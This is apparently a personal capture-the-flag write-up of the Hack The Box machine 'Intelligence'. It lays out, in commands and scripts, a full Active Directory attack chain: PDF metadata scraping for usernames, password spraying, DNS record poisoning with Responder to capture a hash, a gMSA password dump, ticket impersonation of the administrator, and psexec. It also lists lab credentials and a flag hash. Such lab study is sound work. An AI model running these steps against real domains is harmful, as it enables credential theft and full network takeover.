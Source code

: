 # Intelligence \[Medium]

## Report

Enumerating all usual vectors, we find nothing interesting the only notable discovery being two pdf files available for download on the web index page. We need to find a wordlist somehow and exiftool on these lorem ipsum pdfs mentions valid kerberos usernames. Run a script to parse through all available files based on date and retrieve a password from the docs since none of them are ASREP-roastable. We do find a default password and password spraying is successful for 'Tiffany.Molina'

A powershell script is pulled from an available SMB share which validates if systems on its DNS is up and sends an email if not. Modifying the server's DNS records and adding our system forces it to send a request our HTTP server with default creds which we intercept via Responder. Bloodhound shows the attack vector for 'Teddy.Graves' to become admin.

## Cheatsheet

```
Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) 
clock-skew: mean: 1d07h02m46s

http://10.10.10.248/documents/2020-01-01-upload.pdf
http://10.10.10.248/documents/2020-12-15-upload.pdf
this gives the idea for format to bruteforce

Run python and bash script to parse through pdf files hosted on web server
cat *.txt | grep -f patfile -A 2 -B 2 [f allows to pass a file containin gwords to match]
patfile:
username
password
intelligence
htb

Default password
NewIntelligenceCorpUser9876

nxc smb intelligence.htb -u userlist.txt -p NewIntelligenceCorpUser9876 --continue-on-success --verbose

Go to smb find a ps1 script that runs every 5 min, check all computers from domain starting with 'web' and performs get with default creds if fail, send mail to ted.

We add a dns record adding our ip and w responder we get ted's ntlm hash
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.2 --type A 10.10.10.248
sudo responder -I tun0

python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb

sudo faketime -f "+31h" python3 getST.py -spn www/dc.intelligence.htb -impersonate administrator -hashes :a9f4721de917a40fd9010ad815708184 -dc-ip 10.10.10.248 intelligence.htb/svc_int

add the domain controller [dc.[domain] to hosts when they ask for dc you mention the dc lol
export KRB5CCNAME=/home/jtripz/htb/rooms/intelligence/ticket.ccache; faketime -f '+31h' /usr/bin/python3 psexec.py intelligence.htb/administrator@dc.intelligence.htb -k -no-pass

b02ba3009de2927714c2905ff7066169

```

{% code title="Fetching all pdf files with date from first file we found to date of box release" %}
```python
import datetime
import requests

t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with open(t.strftime('%Y-%m-%d-upload.pdf'), 'wb') as f:
            f.write(resp.content)
    t = t + datetime.timedelta(days=1)
    if t > end:
        break

```
{% endcode %}

{% code title="Process all pdf files to find author list and read keywords from standard lorem ipsum content" %}
```bash
#!/bin/bash

TARGET_DIR="/home/jtripz/htb/rooms/intelligence/pdfs" # Replace with the actual path

# Check if the directory exists and is a directory
if [ ! -d "$TARGET_DIR" ]; then
  echo "Error: '$TARGET_DIR' is not a valid directory."
  exit 1
fi

# Loop through each item in the directory
for entry in "$TARGET_DIR"/*; do
  # Check if the current item is a regular file
  if [ -f "$entry" ]; then
    echo "Processing file: $entry"
    # Add your desired operations on the file here
    pdftotext "$entry"
    exiftool "$entry" | grep Creator | cut -d ':' -f 2 | tr -d '[:space:]' >> /home/jtripz/htb/rooms/intelligence/userlist.txt
    echo -e "\n" >> /home/jtripz/htb/rooms/intelligence/userlist.txt
  fi
done

```
{% endcode %}

<div align="left"><figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption><p>getST.py find correct SPN to mention</p></figcaption></figure></div>

## Loot

### Creds

```
Tiffany.Molina:NewIntelligenceCorpUser9876
Ted.Graves:Mr.Teddy
```

### Enum

```
80
Documents - access denied
watch for source

88 Kerb
./kerbrute_linux_amd64 userenum -d intelligence.htb /usr/share/wordlists/cirt-default-usernames.txt --dc intelligence.htb 

SMB
guest - access denied
no user enumeration via smb

RPC
guest - access denied
```
